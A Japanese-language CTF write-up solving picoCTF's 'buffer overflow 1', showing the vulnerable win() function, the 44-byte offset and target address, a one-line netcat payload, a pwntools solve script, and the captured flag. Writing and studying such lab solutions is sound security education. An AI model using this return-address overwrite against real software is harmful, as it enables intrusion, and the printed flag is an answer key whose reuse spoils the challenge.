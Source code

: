 # buffer overflow 1:Binary Exploitation

Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the [program](vuln). You can view source [here](vuln.c). And connect with it using `nc saturn.picoctf.net 53578`

# Solution

とりあえず、`nc saturn.picoctf.net 53578`を実行してみる。
```
$ nc saturn.picoctf.net 53578
Please enter your string: 
abcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyz
Okay, time to return... Fingers Crossed... Jumping to 0x76757473
```
入力した文字の一部が出てきた。おそらく、`44文字+4文字(リトルエンディアン)`で何かするとフラグが出てきそうだ。
vlun.cを見てみると、
```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
```
flag.txtを読み込んでいるwin関数を発見。この関数のアドレス値を+4文字の部分に入れる。アドレス値は`0x080491f6`。アドレス値は、readelfで探すか逆アセンブルして探す。
```
63: 080491f6   139 FUNC    GLOBAL DEFAULT   13 win)
```
```  
                     win                                             XREF[3]:     Entry Point (*) , 0804a0e0 , 
                                                                                          0804a17c (*)   
080491f6 f3  0f  1e  fb    ENDBR32
```
`(python3 -c 'import sys; sys.stdout.write("a"*44)'; echo -e '\xf6\x91\x04\x08') | nc saturn.picoctf.net 53578`を実行する。

```
$ (python3 -c 'import sys; sys.stdout.write("a"*44)'; echo -e '\xf6\x91\x04\x08') | nc saturn.picoctf.net 53578
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_5c6baa9e}
```
flagが得られた。

`picoCTF{addr3ss3s_ar3_3asy_5c6baa9e}`

以下、実行コード。
```python solve.py
from pwn import *

p = remote("saturn.picoctf.net", 53578)

payload = b"a"*44
payload += p32(0x080491f6)

p.sendline(payload)

p.interactive()
```

